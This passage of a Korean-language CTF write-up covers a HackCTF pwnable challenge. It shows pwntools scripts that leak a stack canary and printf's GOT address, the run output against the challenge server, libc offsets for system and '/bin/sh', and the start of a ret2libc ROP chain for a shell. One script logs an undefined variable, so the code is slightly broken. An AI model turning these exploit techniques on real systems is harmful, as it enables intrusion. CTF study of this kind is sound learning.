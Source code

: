 p.recvline()
sleep(0.1)

p.sendline(payload)
sleep(0.1)

p.recvuntil('(Yes/No)\n')
sleep(0.1)

p.sendline('No')
sleep(0.1)

pause()

printf_address=u64(p.recv(5).rjust(6,'\x00').ljust(8,'\x00'))
sleep(0.1)

log.info('printf_address is '+str(hex(puts_address)))

p.interactive()
</pre>

got의 주소를 0x601030이라고 하지 않고, 0x601031이라고 한 이유는 제일 하위 bytes가 \x00이라서 출력이 되지 않았기 때문이다. 따라서 하위 1byte를 제외한 5bytes를 받아들여 앞뒤로 \x00을 붙였다.

출력된 함수의 주소는 다음과 같다.
<pre>
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/28.World_Best_Encryption_Tool$ python ex.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3027: Done
[*] canary is 0x7c4c60ac6c7e4d00
[*] printf_address is 0x7fb9bbb6d800
[*] Switching to interactive mode
Your text)
$  
</pre>

이를 통해서 인터넷을 통해서 `system()`과 binsh의 offset주소를 구하였다.

**system\_offset=0x45390 <br>
printf\_offset=0x55800 <br>
binsh\_offset=0x18cd57**

`main()`으로 돌아간 후 다시 한번 CANARY를 leak해서 다음과 같이 쉘을 따낼 수 있었다.

<pre>
from pwn import*

#p=process('./World_best_encryption_tool')
p=remote('ctf.j0n9hyun.xyz',3027)
#gdb.attach(p)

printf_plt=0x400600
printf_got=0x601031
main=0x400727
pop_rdi_ret=0x4008e3
system_offset=0x45390
printf_offset=0x55800
binsh_offset=0x18cd57
